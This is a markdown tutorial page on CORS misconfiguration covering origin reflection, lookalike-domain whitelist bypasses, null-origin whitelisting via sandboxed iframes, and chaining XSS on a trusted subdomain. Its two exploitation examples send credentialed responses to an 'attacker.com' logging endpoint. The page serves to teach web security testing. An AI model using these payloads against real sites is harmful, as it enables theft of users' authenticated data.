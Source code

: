 ```yaml
---
title: "CORS misconfiguration"
weight: 7
description: "Learn how misconfigured CORS policies can expose sensitive data through origin reflection, null origin whitelisting, and XSS on trusted subdomains."
---
```


# CORS misconfiguration

**Impact**: If a web response includes sensitive data (like an API key or CSRF token), and CORS is misconfigured, an attacker could steal that data using a malicious website.

---

## What is CORS?

CORS (Cross-Origin Resource Sharing) is a browser security feature that controls how web applications interact with resources hosted on different origins. It's designed to prevent malicious websites from making unauthorized requests to other sites on behalf of the user.

{{< hint style=notes >}}
An "origin" in CORS includes the protocol, domain, and port. So `https://example.com` and `http://example.com` are considered different origins
\[[↗](https://developer.mozilla.org/en-US/docs/Glossary/Origin)].
{{< /hint >}}

---

## Origin Reflection in ACAO Header

Some vulnerable servers reflect the `Origin` header in the `Access-Control-Allow-Origin` response without validating it.

**How to Detect**

Send a request with a custom `Origin` header (e.g., `Origin: https://evil.com`) and check if the same origin is reflected back.

```http
Access-Control-Allow-Origin: https://evil.com
```

{{< hint style=warning >}}
If `Access-Control-Allow-Credentials: true` is also present, an attacker can send authenticated requests from a malicious origin.
{{< /hint >}}

**Exploitation Example**

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>
```

---

## Bypassing Origin Checks with Similar Domains

Some applications whitelist trusted origins without strict validation, making it possible to bypass checks using similar-looking domains.

**Examples**:

- `hackersnormal-website.com`
- `normal-website.com.attacker.com`

{{< hint style=notes >}}
You need to know or guess the whitelisted origins to attempt this.
{{< /hint >}}

---

## Whitelisted `null` Origin

If the server allows `null` as an origin, it may be vulnerable to data theft through sandboxed iframes.

**How to Detect**

Send a request with:

```http
Origin: null
```

and check for:

```http
Access-Control-Allow-Origin: null
```

**Exploitation Example**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>"></iframe>
```

---

## Using XSS on a Trusted Subdomain to Exploit CORS

If a site allows CORS requests only from a trusted subdomain and you find an XSS vulnerability on that subdomain, you can use the XSS to steal data via CORS.

**Example Response:**

```http
Access-Control-Allow-Origin: https://sub.vulnerable.com
Access-Control-Allow-Credentials: true
```

**Exploitation Flow:**

1. Find XSS on `https://sub.vulnerable.com`.
2. Inject malicious script that performs a CORS request to the main domain.
3. Steal the sensitive response.

URL:
```md
https://sub.vulnerable.com/?xss=<script>...your-code...</script>
```


---

## The Role of SameSite Cookies

CORS exploits often rely on the browser sending cookies along with cross-origin requests. This depends on the `SameSite` attribute of the cookie.
To exploit CORS with `withCredentials=true`, the session cookie must be accessible (i.e., not blocked by `SameSite=Strict`).